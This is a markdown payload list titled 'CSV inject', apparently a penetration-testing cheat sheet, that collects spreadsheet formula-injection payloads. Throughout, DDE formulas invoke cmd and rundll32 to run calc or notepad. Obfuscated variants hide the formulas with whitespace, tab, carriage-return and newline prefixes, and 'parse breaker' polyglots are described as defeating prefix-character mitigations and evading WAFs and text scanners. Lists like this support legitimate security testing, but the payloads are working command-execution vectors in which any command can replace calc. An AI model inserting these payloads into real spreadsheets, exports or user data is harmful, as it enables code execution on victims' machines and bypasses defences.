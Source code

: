 #test

## CSV inject
- DDE ("cmd";"/C calc";"!A0")A0
- =rundll32|'URL.dll,OpenURL calc'!A
- -1-rundll32|'URL.dll,OpenURL calc'!A
- =rundll32|'URL.dll,OpenURL notepad'!A
- =rundll32|'URL.dll,OpenURL https://google.com'!A1
- @SUM(1+1)*cmd|' /C calc'!A0
- =cmd|'/C calc'!A1@example.com //for emails
- =2+5+cmd|' /C calc'!A0
- +hack(cmd|'/c calc.exe'!A
- =hack/cmd|'/c calc.exe'!A
- -2+3+cmd|'/C calc'!A1
- -1-cmd|'/C calc'!'A1'
- --1-cmd|'/C calc'!'A1'
- =cmd|'/C notepad'!'A1'
- =cmd|'/C calc'!'A2'
- =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
- <TAB>=cmd|'/C notepad'!'A1' 
- <CR>=cmd|'/C notepad'!'A1'

rundll32 dll variations
- =rundll32|'shell32.dll,ShellExec_RunDLL calc'!A1
- =rundll32|'zipfldr.dll,RouteTheCall calc'!A1
- =rundll32|'shell32.dll,Control_RunDLL timedate.cpl'!A1
- =rundll32|'shell32.dll,Control_RunDLL appwiz.cpl'!A1

Abnormal Variations
- ending in coma: =cmd|'/c calc'!'a2',
- \t=\tc\tm\td\t|'/C notepad'!'A2',
- =\ncmd|'/C calc'!A1

Excel .xlsx breaks
- "=cmd|'/C calc'!'A1'"

- Parse breakers (defeats prefixed character mitigations)
  - shorter: parsebreaker" ;,=cmd|'/C notepad'!'A1'
  - parsebreaker",=cmd|'/C notepad'!'A1''" ;,=cmd|'/C notepad'!'A1'
  - csvi polyglot
    - =cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',0x0D=cmd|'/C notepad'!'A3';=cmd|'/C notepad'!'A4'=cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6' 
      - includes WAF bypass, new line hex characters to stop text scanners
    - =cmd|'/C notepad'!'A0';=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2';-1-cmd|'/C notepad'!'A3';0x0D-1-cmd|'/C notepad'!'A4';=cmd|'/C notepad'!'A5'=cmd|'/C notepad'!'A6''" ;,=cmd|'/C notepad'!'A7' 
    - =cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',\---1-cmd|'/C notepad'!'A3';@cmd|'/C notepad'!'A4'+cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'

      
- \---1-cmd|'/C calc'!'A1'
- \t--1-cmd|'/C calc'!'A1'
- \"--1-cmd|'/C calc'!'A1'
- \n--4-cmd|'/C calc'!'A1'
